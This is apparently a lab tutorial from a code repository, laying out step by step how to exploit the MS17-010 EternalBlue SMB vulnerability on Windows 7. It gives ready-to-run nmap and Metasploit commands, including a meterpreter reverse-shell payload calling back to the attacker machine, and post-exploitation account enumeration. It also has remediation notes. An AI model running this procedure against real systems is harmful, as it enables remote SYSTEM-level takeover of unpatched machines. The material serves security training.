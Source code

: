 # MS17-010 EternalBlue Exploitation Methodology

Complete step-by-step procedure for testing and exploiting MS17-010 vulnerability in controlled lab environment.

## Target Information
- **Vulnerability**: CVE-2017-0144 (MS17-010 EternalBlue)
- **Affected Systems**: Windows 7, Windows Server 2008/2012
- **Service**: SMB (Port 445/tcp)
- **Impact**: Remote Code Execution with SYSTEM privileges

## Lab Environment Setup
- **Attacker**: Kali Linux (192.168.1.5)
- **Target**: Windows 7 SP1 x64 (192.168.1.10)
- **Network**: VirtualBox Internal Network (isolated)

## Step 1: Network Discovery

```bash
# Discover live hosts
nmap -sn 192.168.1.0/24

# Result example:
# Nmap scan report for 192.168.1.10
# Host is up (0.00023s latency).
```

## Step 2: Service Enumeration

```bash
# Check for SMB service
nmap -p 445 192.168.1.10

# Service version detection
nmap -sV -p 445 192.168.1.10

# Expected output:
# 445/tcp open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds
```

## Step 3: Vulnerability Assessment

```bash
# MS17-010 specific vulnerability check
nmap --script smb-vuln-ms17-010 192.168.1.10

# Vulnerable system output:
# |_smb-vuln-ms17-010: VULNERABLE:
# |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
```

## Step 4: Metasploit Exploitation

```bash
# Start Metasploit Framework
msfconsole

# Search for MS17-010 exploits
search ms17-010

# Use EternalBlue exploit
use exploit/windows/smb/ms17_010_eternalblue

# Configure target
set RHOSTS 192.168.1.10
set RPORT 445

# Select payload
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444

# Verify configuration
show options

# Check if target is vulnerable
check

# Execute exploit
exploit
```

## Step 5: Post-Exploitation Verification

```bash
# Verify session established
sessions -l

# Access meterpreter session
sessions -i 1

# Check current privileges
getuid
# Expected: NT AUTHORITY\SYSTEM

# System information
sysinfo

# Take screenshot for evidence
screenshot

# List running processes
ps
```

## Step 6: Evidence Collection

```bash
# System information gathering
sysinfo > system_info.txt

# Network configuration
ipconfig > network_config.txt

# User accounts
net user > user_accounts.txt

# Administrator group members
net localgroup administrators > admin_users.txt
```

## Expected Results

**Successful exploitation indicators:**
- Meterpreter session established
- NT AUTHORITY\SYSTEM privileges obtained
- Complete file system access
- Network connectivity maintained

## Remediation Verification

Test the same procedure on a patched Windows 7 system to verify that the vulnerability has been properly addressed.

```bash
# On patched system, exploit should fail:
# [-] 192.168.1.10:445 - Exploit failed: The connection was refused by the remote host (10.0.0.10:445).
```

## Key Learning Points

1. **MS17-010** affects unpatched Windows systems and provides immediate SYSTEM privileges
2. **SMB service** on port 445 is the attack vector
3. **No authentication** required for exploitation
4. **Patch management** is critical for preventing this vulnerability
5. **Network segmentation** can limit impact of successful exploitation